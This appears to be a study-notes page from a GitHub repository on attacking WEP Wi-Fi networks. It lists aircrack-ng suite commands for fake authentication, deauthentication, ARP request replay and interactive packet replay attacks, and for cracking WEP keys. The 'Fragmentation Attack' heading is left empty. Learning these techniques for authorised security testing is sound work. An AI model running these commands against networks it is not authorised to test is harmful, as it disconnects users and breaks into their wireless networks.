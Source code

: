 # Chapter 5 - WEP

## Quick Notes

```

## Fake Authentication Attack
   
   airmon-ng start <interface> <AP_Channel>                                         ## setting the wireless card (wlan0) to monitor mode
   macchanger --show <interface>                                                    ## learning the MAC address of the mon0 (monitor mode) network interface
   airodump-ng -c <AP_Channel> --bssid <AP_MAC> -w <capture_file> <interface>       ## listening to the target AP on the specified channel
   aireplay-ng -1 0 -e <ESSID> -a <AP_MAC> -h <Your_MAC> <interface>                ## performing a fake authentication attack against AP
   
   
## Deauthentication Attack

   airmon-ng start <interface> <AP_Channel>                                         ## setting the wireless card (wlan0) to monitor mode
   airodump-ng -c <AP_Channel> --bssid <AP_MAC> -w <capture_file> <interface>       ## listening to the target AP on the specified channel
   aireplay-ng -0 1 -a <AP_MAC> -c <Client_MAC> <interface>                         ## performing a deauthentication attack against AP


## ARP Request Replay Attack

   airmon-ng start <interface> <AP_Channel>                                         ## setting the wireless card (wlan0) to monitor mode
   airodump-ng -c <AP_Channel> --bssid <AP_MAC> -w <capture_file> <interface>       ## listening to the target AP on the specified channel
   aireplay-ng -1 0 -e <ESSID> -a <AP_MAC> -h <Your_MAC> <interface>                ## performing a fake authentication attack against AP
   aireplay-ng -3 -b <AP_MAC> -h <Your_MAC> <interface>                             ## performing a ARP Request Replay attack against AP
   aireplay-ng -0 1 -a <AP_MAC> -c <Client_MAC> <interface>                         ## performing a deauthentication attack against AP
   aircrack-ng <capture_file>                                                       ## cracking WEP key (In order to achieve a successful result, you need to catch a sufficient number of IVs during the attack.)
 

## Interactive Packet Replay Attack

   airmon-ng start <interface> <AP_Channel>                                         ## setting the wireless card (wlan0) to monitor mode
   airodump-ng -c <AP_Channel> --bssid <AP_MAC> -w <capture_file> <interface>       ## listening to the target AP on the specified channel
   aireplay-ng -1 0 -e <ESSID> -a <AP_MAC> -h <Your_MAC> <interface>                ## performing a fake authentication attack against AP
   aireplay-ng -2 -b <AP_MAC> -d FF:FF:FF:FF:FF:FF -f 1 -m 68 -n 86 <interface>     ## performing a interactive packet replay attack against AP
   aircrack-ng -z <capture_file>                                                    ## cracking WEP key (In order to achieve a successful result, you need to catch a sufficient number of IVs during the attack.)


## Fragmentation Attack

```